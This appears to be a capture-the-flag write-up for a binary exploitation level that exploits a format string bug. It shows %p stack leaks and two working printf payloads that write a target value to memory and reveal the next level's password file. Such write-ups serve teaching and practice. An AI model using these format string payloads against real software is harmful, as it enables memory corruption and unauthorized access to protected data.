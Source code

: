 # level4

Quite similar as the last one, this will need a format string attack.

It's just a tiny bit more complex because the `printf` call is in a sub function, which makes the stack a little deeper.

There are three functions, including `main`, which only calls the second one, called `n`. The `n` function takes input from `stdin` (no overflow possible), and gives its buffer to `p`. All `p` does is call `printf` with said buffer. Then, back in `n`, if the value at the address `0x8049810` contains `0x01025544`, the contents of `/home/user/level5/.pass` are displayed.

By entering a bunch of `%p` after a recognizable 4 bytes pattern like `AAAA`, we can see that the buffer is the 12th "parameter" of `printf`:

```bash
level4@RainFall:~$ ./level4 
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xb7ff26b00xbffff7840xb7fd0ff4(nil)(nil)0xbffff7480x804848d0xbffff5400x2000xb7fd1ac00xb7ff37d00x414141410x702570250x702570250x702570250x70257025
                                                                                                  ^^^^^^^^^^
```

Now all we need to do is construct a payload in the same manner as the last exercise, using `%12$n` after having written the target address and the appropriate amount of padding (`0x1025544` is 16930116 in decimal, minus 4 for the length of the address)

```bash
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112p%12$n"' | ./level4
```

#### The ✨ cooler way ✨

Since this solution writes a **lot** of whitespace and takes like 0.5s, which is way too long, we chose to take the time to figure out how to split it to have way less padding. The way it works is left as an exercise to the reader.

```bash
python -c 'print "\x08\x04\x98\x10"[::-1] + "\x08\x04\x98\x11"[::-1] + "\x08\x04\x98\x12"[::-1] + "%56p%12$hhn%17p%13$hhn%173p%14$hn"' | ./level4
```